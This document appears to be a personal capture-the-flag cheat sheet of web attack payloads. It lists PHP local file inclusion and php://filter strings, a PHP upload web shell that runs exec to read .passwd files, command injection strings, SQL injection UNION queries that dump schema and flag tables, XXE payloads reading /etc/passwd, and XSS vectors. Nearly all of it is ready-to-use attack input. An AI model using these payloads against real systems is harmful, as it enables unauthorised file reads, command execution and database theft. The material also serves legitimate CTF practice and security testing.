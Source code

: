 ### PHP related:
- /?cat=dog
- /index.php?file=hint.php?/../../../../../../../../ffffllllaaaagggg
- /?file=php://filter/read=convert.base64-encode/resource=flag.php
- /secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php
- /?inc=php://filter/read=convert.base64-encode/resource=config.php
- ?page=php://filter/convert.base64-encode/resource=home
- "' and die(system('cat .passwd')) or '"
- PNG
``<?php
 echo exec("ls -la");
	exec("cd ..");
	echo exec("la -la");
	echo ("\n hello");
	echo exec ("cat ../../../.passwd")
?>``
- https://book.hacktricks.xyz/pentesting-web/file-upload#from-file-upload-to-other-vulnerabilities

### Command injection:
- 127.0.0.1;cd ..;cd ..;cd ..;ls
- /?ip=127.0.0.1;cat$IFS$1\`ls\`

### SQL injection: 
- https://github.com/payloadbox/sql-injection-payload-list
- username:`  admin  `, password: `anything` (register)
- username: `ad'||'min`, password: `a' IS NOT 'b`
- SELECT * FROM exploits WHERE ID=`1 UNION SELECT 1,2--`
- SELECT * FROM exploits WHERE ID=`1 AND 1=2 UNION SELECT 1,2,3--`
- SELECT * FROM exploits WHERE ID=`1 AND 1=2' UNION SELECT version(),user(),3--'`
- ' UNION SELECT GROUP_CONCAT(table_name), CURRENT_TIME FROM information_schema.tables WHERE table_schema=DATABASE() AND '1'='1
- ' UNION select flag, CURRENT_TIMESTAMP from flags where '1'='1

### XEE:
Format:  `<!ENTITY entity-name SYSTEM "URI/URL">`

Payload: `<?xml version="1.0" encoding="UTF-8"?>
                              <!DOCTYPE note [<!ENTITY something SYSTEM "/etc/passwd">]>
                                <data>
                                  <ID>
                                    &something;
                                  </ID>
                                </data>`
                                
Examples: 

`<!DOCTYPE note [
	<!ENTITY xxe SYSTEM "file:///flag.txt">
]> 
<query>
  <search></search>
  <country>&xxe;</country>
</query> `                               
### XSS:
- `#<script>alert('XSS')</script>`
- `#<img src=x onerror=alert('XSS')>`
- `#<svg/onload=alert('XSS')>`
- `#<p onclick=alert('XSS')>Click me</p>`
- `#<body onload=alert('XSS')>`
- `#</p><script>alert('XSS')</script>`
- `#<img src="x" onerror="alert('XSS')">`
- `#%25253Cscript%25253Ealert(1)%25253C/script%25253E`
